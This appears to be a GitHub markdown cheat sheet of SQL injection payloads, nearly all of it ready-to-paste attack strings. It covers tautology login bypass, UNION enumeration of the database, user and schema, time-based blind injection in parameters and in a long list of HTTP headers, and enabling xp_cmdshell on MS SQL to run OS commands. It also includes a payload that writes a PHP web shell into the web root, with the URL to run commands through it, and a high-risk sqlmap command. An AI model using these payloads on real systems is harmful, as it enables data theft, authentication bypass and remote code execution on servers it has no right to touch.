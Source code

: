 # SQLi Payloads

Tautology : To login bypass

```
' OR 1=1 -- //
```

Tautology : To get Version using Tautology

```
' or 1=1 in (select @@version) -- //
```

Order By : To find number of columns in the table

```
' ORDER BY 1-- //
```

Union : Using Order By, Enumerating the current database name, user, and MySQL version.
(adjust the columns according to the table. starting null and ending database())

```
' UNION SELECT null, null, database(), user(), @@version -- //
```

Union : retrieve the columns table from the information_schema

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Blind SQL:

```
' AND IF (1=1, sleep(3),'false') -- //
```

```
' or sleep(15) and 1=1#
' or sleep(15)#
' union select sleep(15),null#
```

Code Execution : xp_cmdshell in Microsoft SQL need to be enable to work this.

```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami'; //to run commands
```

Code Execution: Uploading an RCE to an Writable folder. (/var/www/html/). Adjust Code Accordingly.

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Command to execute RCE.
`http://<IP>/webshell.php?cmd=<command>`

```
%22)%20AND%201337%3dBENCHMARK(5000000,MD5(0x774c5341))%20AND%20(%221337%22%20LIKE%20%221337
```

```
ADD THESE HEADERS TO YOUR WEB REQUESTS
 
If the SQL injection works, there will be a 30sec delay between the request and response!
 
HEADERS: 
Accept: "' or sleep(30)='"
Accept-Charset: "' or sleep(30)='"
Accept-Datetime: "' or sleep(30)='"
Accept-Encoding: "' or sleep(30)='"
Accept-Language: "' or sleep(30)='"
Authorization: "' or sleep(30)='"
Cache-Control: "' or sleep(30)='"
Connection: "' or sleep(30)='"
Content-Length: "' or sleep(30)='"
Content-MD5: "' or sleep(30)='"
Content-Type: "' or sleep(30)='"
Cookie: "' or sleep(30)='"
Date: "' or sleep(30)='"
Expect: "' or sleep(30)='"
Forwarded: "' or sleep(30)='"
From: "' or sleep(30)='"
If-Match: "' or sleep(30)='"
If-Modified-Since: "' or sleep(30)='"
If-None-Match: "' or sleep(30)='"
If-Range: "' or sleep(30)='"
If-Unmodified-Since: "' or sleep(30)='"
Max-Forwards: "' or sleep(30)='"
Origin: "' or sleep(30)='"
Pragma: "' or sleep(30)='"
Proxy-Authorization: "' or sleep(30)='"
Range: "' or sleep(30)='"
Referer: "' or sleep(30)='"
TE: "' or sleep(30)='"
Upgrade: "' or sleep(30)='"
User-Agent: "' or sleep(30)='"
Via: "' or sleep(30)='"
Warning: "' or sleep(30)='"
X-Client-IP: "' or sleep(30)='"
X-Remote-IP: "' or sleep(30)='"
X-Remote-Addr: "' or sleep(30)='"
X-Forwarded-For: "' or sleep(30)='"
X-Originating-IP: "' or sleep(30)='"
X-Host: "' or sleep(30)='"
X-Forwarded-Host: "' or sleep(30)='"
```

```
sqlmap -u "https://www[.]example[.]com/something/thing/filter-thing.php?vulnerable-param=123& another-param=123" --dbs --level=5 --risk=3 --random-agent --user-agent -v3 --batch --threads=10 --dbs
```

```
--dbs --level=5 --risk=3 --random-agent --user-agent -v3 
```

```
--batch --threads=10 --dbs
```



